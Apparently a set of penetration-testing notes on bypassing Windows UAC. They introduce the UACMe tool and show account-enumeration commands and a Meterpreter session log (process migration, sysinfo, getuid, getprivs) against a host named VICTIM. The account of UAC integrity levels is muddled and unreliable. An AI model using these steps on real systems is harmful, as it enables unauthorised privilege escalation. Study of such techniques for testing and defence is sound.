 - In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.

 - There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.
 - 
### [UACMe Tool](https://github.com/hfiref0x/UACME)

 - UACMe is an open source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques. 

-  The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7  to Windows 10.

-  It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.

-  The UACMe GitHub repository has more than 60 exploits that can be used to bypassUAC depending on the version of Windows running on the target.

### How To Exploit ?
1. Understand the structure of the accounts in the target system, then you MUST have access to an administrator local user.
``` powershell
net user
# Adds or modifies user accounts, or displays user account information.

net localgroup administrators 
# displays the name of the server and the names of local groups on the computer.
```


``` bash
meterpreter > pgrep explorer
2448 

meterpreter > migrate 2448 
[-} Migrating from 820 to 2448... 
[~] Migration completed successfully. 

meterpreter > sysinfo 
Computer : VICTIM 
OS : Windows 2012 R2 (6.3 Build 9600). 
Architecture : x64 
System Language : en_US 
Domain : WORKGROUP 
Logged On Users : 2 
Meterpreter : x64/windows 

meterpreter > getuid 
Server username: VICTIM\admin 

meterpreter > getprivs
```
